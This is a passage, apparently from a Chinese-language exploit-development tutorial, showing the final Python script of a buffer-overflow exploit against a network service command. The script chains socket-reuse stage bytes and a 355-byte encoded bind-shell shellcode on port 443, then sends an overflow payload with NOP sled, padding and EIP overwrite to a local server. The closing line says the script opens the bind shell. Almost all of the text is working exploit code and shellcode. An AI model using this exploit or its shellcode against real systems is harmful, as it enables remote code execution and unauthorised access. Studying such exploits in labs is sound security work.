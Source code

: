 ```
socket_reuse += "\x51"                  **# PUSH ECX**
socket_reuse += "\x50"                  **# PUSH EAX**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x56"                  **# PUSH ESI**
socket_reuse += "\xFF\xD3"              **# CALL EBX****# 3rd Stage Shellcode (Bind Shell) - Port 443 (355 Bytes)**
buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += vuln_command
payload += "\x90" * 55             **# Start location of jmp_back**
payload += socket_reuse
payload += "A" * (offset - 55 - len(socket_reuse))
payload += eip
payload += jmp_back
payload += "C" * 40print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)print "[+] Sent Socket_reuse Payload... Wait for 5 seconds..."time.sleep(5)
s.send(buf + "\x90" * (512 - len(buf)))print "[+] Bind Shell Payload Sent!"s.close()
```

一旦我们运行了`final_gter.py`脚本，我们就可以成功地在端口 443 上打开 bind shell。
